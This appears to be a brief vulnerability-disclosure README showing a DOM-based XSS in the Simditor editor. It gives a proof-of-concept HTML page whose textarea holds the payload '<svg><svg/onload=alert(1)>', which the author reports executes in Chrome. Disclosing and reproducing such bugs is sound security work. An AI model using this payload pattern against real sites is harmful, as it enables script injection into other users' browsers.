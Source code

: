 # simditor
https://github.com/mycolorway/simditor
DOM XSS


## Download the Simditor source code.
--
We just need this three js.
![image](https://github.com/hkglue/simditor_demo/blob/master/images/js.jpg)
--

##Edit a HTML FILE
```
<html>
<title>test</title>
<body>
<script type="text/javascript" src="./jquery.min.js"></script>
<script type="text/javascript" src="./module.js"></script>
<script type="text/javascript" src="./hotkeys.js"></script>
<script type="text/javascript" src="./simditor.js"></script>

<textarea id="editor"><svg><svg/onload=alert(1)></textarea>
<script>var editor = new Simditor({textarea: $('#editor')});</script>

</body>
</html>
```

##Open the HTML in any browser.
--
This is in my chrome，THE XSS PAYLOAD IS EXECUTE !
![image](https://github.com/hkglue/simditor_demo/blob/master/images/example.jpg)
--

